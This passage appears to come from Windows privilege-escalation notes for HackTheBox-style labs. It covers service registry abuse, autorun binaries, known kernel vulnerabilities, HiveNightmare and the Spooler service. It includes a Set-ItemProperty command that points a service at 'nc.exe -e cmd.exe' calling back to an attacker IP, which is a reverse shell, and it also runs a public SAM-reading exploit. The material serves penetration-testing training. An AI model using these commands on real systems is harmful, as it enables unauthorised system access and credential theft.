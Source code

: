 We can abuse this using the PowerShell cmdlet Set-ItemProperty to change the ImagePath value, using a command such as:
```console
PS C:\htb> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe <OUR IP> 443"
```

### Modifiable Registry Autorun Binary

We can use WMIC to see what programs run at system startup.
```console
PS C:\zeropio> Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```

Check [here](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries) for potential autorun locations on Windows systems.

## Kernel Exploits 

It's a big challenge to ensure that all user desktops and servers are updated, and 100% compliance for all computers with security patches is likely not an achievable goal. [Here](https://msrc.microsoft.com/update-guide/vulnerability) are a list of Microsoft security vulnerabilities. Below are some extremely high-impact Windows vulnerabilities over the years that can be leveraged to escalate privileges:
- **MS08-067**: remote code execution vulnerability in the "Server" service due to improper handling of RPC requests
- **MS17-010**: Also known as EternalBlue is a remote code execution vulnerability that was part of the FuzzBunch toolkit released in the Shadow Brokers leak
- **ALPC Task Scheduler 0-Day**: The ALPC endpoint method used by the Windows Task Scheduler service could be used to write arbitrary DACLs to **.job** files located in the `C:\Windows\tasks`{: .filepath} directory
- **CVE-2021-36934 HiveNightmare** (**SeriousSam**):  Windows 10 flaw that results in ANY user having rights to read the Windows registry and access sensitive information regardless of privilege level

### Notable Vulnerabilities

We can check for this vulnerability using icacls to check permissions on the SAM file:
```console
C:\zeropio> icacls c:\Windows\System32\config\SAM
```

If the **BUILTIN\Users** group is include we can read it. Most Windows 10 systems will have System Protection enabled by default which will create periodic backups, including the shadow copy necessary to leverage this flaw. Let's use the following [PoC](https://github.com/cube0x0/CVE-2021-36934):
```console
PS C:\htb> .\CVE-2021-36934.exe
```

Also, we can try with **Spooler Service**. We can quickly check if the Spooler service is running with the following command. If it is not running, we will receive a *path does not exist* error:
```console
PS C:\zeropio> ls \\localhost\pipe\spoolss
```
